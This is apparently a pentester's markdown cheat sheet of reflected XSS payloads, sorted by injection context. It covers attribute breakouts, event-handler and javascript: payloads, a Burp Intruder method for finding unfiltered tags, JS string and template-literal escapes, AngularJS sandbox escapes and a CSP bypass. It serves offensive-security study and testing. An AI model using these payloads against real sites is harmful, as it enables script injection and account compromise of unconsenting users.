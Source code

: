 # Reflected

## Context

### AccessKey Attribute

Set a global accessKey parameter. When the user presses the selected key, a script will be executed. Works only on Chrome

```
<url>/?%27accesskey=%27<key>%27onclick=%27alert(1)
```

### HTML Parameter

```
"><script>...</script>
"><svg onload="...">
"><img src=. onerror="...">

//in case brackets are escaped, give onfocus event and focus on self
" autofocus onfocus="..." x="
" onmouseover="..." x="
```

Anchor href parameter poisoning

```
href="javascript:'...'"
```

### HTML Tags

1. Find vulnerable field
2. Send request to Burp Intruder as following `<§[payload]§>` to find unfiltered tags
3. Set the payload to a list of tags (see [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) and start the attack
4. After finding an unfiltered tag set the payload to `<[tag]+§[payload]§="alert()">`
5. Set the payload to a list of events (see [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) and start the attack
6. After finding a suitable event the basic payload will be`<[tag]+[event]="[js]">`

Deliver through IFrame

```
<iframe src="<url>" onload="...">
```

Deliver with custom tag with autofocus

```
<script>
location = "<url>/?search=<xss id='x' onfocus='...' tabindex=1>#x";
</script>
```

### Javascript Block

Escape from string such as `var x = 'input'`

```
</script><script>...</script>
```

Escape from strings with angled brackets encoded

```
'-<payload>-'
';<payload>//
```

Evade filters

```
\';<...>//                    //double quote filter
onerror=<func>;throw <arg>    //assign to error event.
&apos;-<...>-&apos;           //HTML escaped quotes
```

### JS Template Literals

JS template strings are declared between backticks and use `${...}` notation to evaluate code and inject the result in the string.

```
`Welcome, ${user.displayName}.`;
```

To execute code simply inject `${<...>}` in the string

### AngularJS Sandbox Escape

Sandbox escape by owerwriting the charAt method to join characters instead of evaluoating them one at a time

```
toString().constructor.prototype.charAt%3d[].join;
```

Code execution payloads

```
$eval('x=<...>')
[1]|orderBy:toString().constructor.fromCharCode(120 61 <charcode payload>)=1  //120 61 is for 'x='
```

Content Security Policy Bypass

```
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],<...>)'">
```



&#x20;
